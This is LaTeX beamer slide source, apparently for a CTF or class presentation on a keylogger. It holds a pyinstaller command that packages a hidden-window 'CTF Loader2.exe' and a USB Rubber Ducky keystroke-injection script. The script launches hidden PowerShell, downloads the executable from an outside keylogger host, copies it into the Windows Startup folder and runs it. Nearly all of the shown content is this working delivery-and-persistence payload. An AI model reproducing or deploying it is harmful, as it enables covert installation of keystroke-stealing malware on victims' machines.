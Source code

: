 \documentclass{beamer}
\begin{document}
\begin{frame}{Target side class diagram}
\includegraphics[width=307pt, height=210pt]{../images/targetclassdiagram}
\end{frame}

\begin{frame}[fragile]{Create the executable}
\begin{lstlisting}[language=Python]
pyinstaller --onefile -w --name ``CTF Loader2.exe'' --icon ``../images/keylogger.ico'' TargetApp.pyw
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Ducky Script}
\begin{lstlisting}[language=Python]
DELAY 1000
GUI r
DELAY 200
STRING powershell saps powershell
ENTER
DELAY 200
STRING powershell -windowstyle hidden {iwr 'http://keylogger.3utilities.com:777/CTF Loader2.exe' -o 'CTF Loader2.exe';cp 'CTF Loader2.exe' 'Appdata\Roaming\Microsoft\Windows\Start Menu\Programs\Startup';saps '.\CTF Loader2.exe'}
ENTER
\end{lstlisting}
\end{frame}
\end{document}
